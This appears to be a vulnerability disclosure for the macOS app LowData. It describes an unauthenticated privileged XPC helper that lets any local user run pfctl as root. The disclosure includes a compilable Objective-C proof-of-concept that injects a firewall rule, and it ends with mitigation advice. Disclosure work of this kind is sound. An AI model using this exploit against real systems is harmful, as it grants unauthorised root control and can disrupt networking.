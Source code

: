 ## Summary

A local privilege escalation vulnerability exists in the `LowData` macOS application. The app includes a privileged helper tool that exposes a Mach XPC service (`com.lowdata.helper`) without proper authentication of connecting clients. This allows any local user to execute root-level commands, including packet filter (`pfctl`) operations.

## Technical Details

The helper tool is launched with root privileges and uses `NSXPCListener` to expose the `LowDataHelperProtocol` interface. However, the connection verification function is stubbed as follows:

```swift
private func verifyConnection(_ connection: NSXPCConnection) -> Bool {
    // TODO: Implement proper code signing verification
    return true
}
```

This effectively allows **any local process** to connect to the helper and call privileged methods, including:

- `applyBlockingRules(...)`: which writes to `/tmp/lowdata_rules.conf` and executes:

  ```sh
  /sbin/pfctl -f /tmp/lowdata_rules.conf -e
  ```

- `removeAllBlockingRules(...)`: which runs:

  ```sh
  /sbin/pfctl -F rules
  ```

This results in **arbitrary root command execution** through the helper.

## Exploit script

proof-of-concept. The exploit connects to the helper and injects a firewall rule blocking outbound SSH (port 22), demonstrating full privileged control.

```objective-c
// Exploit.m
// Compile with: clang -framework Foundation Exploit.m -o exploit

#import <Foundation/Foundation.h>

// Define the protocol as an Objective-C protocol
@protocol LowDataHelperProtocol
- (void)applyBlockingRules:(NSArray *)rules reply:(void (^)(BOOL success, NSString *error))reply;
@end

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        NSLog(@"starting LowData privilege escalation PoC...");

        NSXPCConnection *connection = [[NSXPCConnection alloc] initWithMachServiceName:@"com.lowdata.helper" options:0];
        connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(LowDataHelperProtocol)];
        [connection resume];

        id<LowDataHelperProtocol> proxy = [connection remoteObjectProxyWithErrorHandler:^(NSError * _Nonnull error) {
            NSLog(@"failed to connect: %@", error);
            exit(1);
        }];

        // Create a malicious pfctl rule that blocks outbound SSH
        NSArray *maliciousRules = @[
            @{@"type": @"port", @"port": @22, @"protocol": @"tcp"}
        ];

        [proxy applyBlockingRules:maliciousRules reply:^(BOOL success, NSString *error) {
            if (success) {
                NSLog(@"exploit succeeded: root pfctl rule injected.");
            } else {
                NSLog(@"exploit failed: %@", error);
            }
            exit(0);
        }];

        [[NSRunLoop currentRunLoop] run]; // Keep process alive to receive reply
    }
}
```

## Impact
Any local user can execute privileged firewall commands as root without authentication. This allows blocking system traffic, disabling rules, or injecting malicious configurations.

## Mitigation

To prevent unprivileged access, the helper should enforce proper client validation using one or more of the following:

- Code signature validation (via `SecCodeCopyGuestWithAttributes` and `SecCodeCheckValidity`)
- Entitlement checks
- Restricting access to specific user or group
- Dropping `NSXPCListener` in favor of SMAppService with proper authorization model

## Affected Version

GitHub source code as of commit `f9c99549d54c5940686b522eefbe53fad0571728` (September 13, 2025)

```sh
commit f9c99549d54c5940686b522eefbe53fad0571728 (HEAD -> main, origin/main, origin/HEAD)
Author: Konrad Michels <konrad@tonalphoto.com>
Date:   Wed Sep 3 10:47:29 2025 -0400
```

*(No official releases were published at time of disclosure)*

Repository: https://github.com/kmichels/LowData



